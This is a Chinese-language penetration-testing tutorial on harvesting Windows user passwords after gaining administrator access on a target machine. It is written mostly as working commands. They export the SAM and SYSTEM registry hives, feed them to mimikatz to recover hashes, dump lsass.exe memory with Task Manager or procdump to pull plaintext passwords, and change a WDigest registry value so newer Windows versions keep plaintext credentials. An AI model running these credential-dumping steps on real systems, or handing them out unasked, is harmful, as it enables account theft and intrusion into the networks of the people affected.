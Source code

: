 # 内网渗透之获取用户密码
获取到用户密码需要我们权限是最高权限，普通权限是不行的。两种思路，一种是获取的加密密码，然后将加密的密码拿到cmd5去解密，这种方法解不开就凉凉。另一种方法可获取明文密码。
## 方法一：获取加密的密码
通过注册表导出文件sam.hiv和sys.hiv
#### 命令
`reg save hklm\sam sam.hiv`导出sam文件

`reg save hklm\system sys.hiv`导出sys文件

#### 在Windows2003版本以上（包含2003）都可以使用此命令，在2003版本中密码以ltml形式存在，其他版本都是以Hash加密


- 导出之后我们将文件下载，将文件放在mimikatz下

![image](https://user-images.githubusercontent.com/71583369/147204794-71417ebd-757f-417f-be73-0e7c60a58275.png)

- 输入命令

`lsadump::sam /sam:sam.hiv /system:sys.hiv`

![image](https://user-images.githubusercontent.com/71583369/147209167-b77d0518-1a21-4cb3-95b7-420b7e8fd864.png)

获取到hash值，进行cmd5解密后可获取到密码

还用一种方法是直接导出sam文件，但是这种方法在实战中并不使用，因为系统在运行时我们并不能对文件进行操作，因为文件时被占用的。路径`C:\WINDOWS\system32\config`我们还需要上传一些工具上去，然而这并不方便，这里不再介绍。








## 方法二：获取明文密码
1. 任务管理器导出lsass.exe内存

![image](https://user-images.githubusercontent.com/71583369/147211994-1d11985a-1ae7-4fd2-958d-3870918a2553.png)

2. 右键创建转存文件，会在`C:\Users\Administrator\AppData\Local\Temp`创建lsass.DMP文件

![image](https://user-images.githubusercontent.com/71583369/147212372-0be16c96-2cbf-4eb5-a4ab-ad240486e7f3.png)

3. 将文件导出放到mimikatz下

![image](https://user-images.githubusercontent.com/71583369/147212785-4814b009-4d9b-4e7e-9d5c-b26900a4bc1b.png)

4. 执行命令`sekurlsa::minidump lsass.dmp`

![image](https://user-images.githubusercontent.com/71583369/147213430-c1659229-cff5-48c3-9b5d-a697481a7c00.png)

5. 导出密码`sekurlsa::logonpasswords`

![image](https://user-images.githubusercontent.com/71583369/147213730-0049cfa2-e90b-454f-9348-3d4e93a9ebb1.png)


### procdump程序lsass内存
1. 将procdump工具上传到目标服务器
2. 执行命令`procdump.exe -accepteula -ma lsass.exe lsass.dmp`导出lsass.exe 到lsass.dmp

![image](https://user-images.githubusercontent.com/71583369/147215768-b7037ca6-9307-49fe-b993-3be4f9ecad86.png)

3. 然后将lsass.dmp文件梵高mimikatz中，然后重复如上操作即可

###  注意事项：在Windows2012 （包括2012）以上版本无法从lsass。exe内存中窃取明文密码，在Windows2003获取的文件，必须要在同类型的系统中解密，当目标值x86的系统，那么mimikatz也必须是x86的。

## 我们要记录Windows2012的明文密码该如何操作？
需要修改注册表

`reg add HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\ /v UseLogonCredential /t REG_DWORD /d 1`



## 参考链接：https://blog.csdn.net/weixin_45663905/article/details/108013149
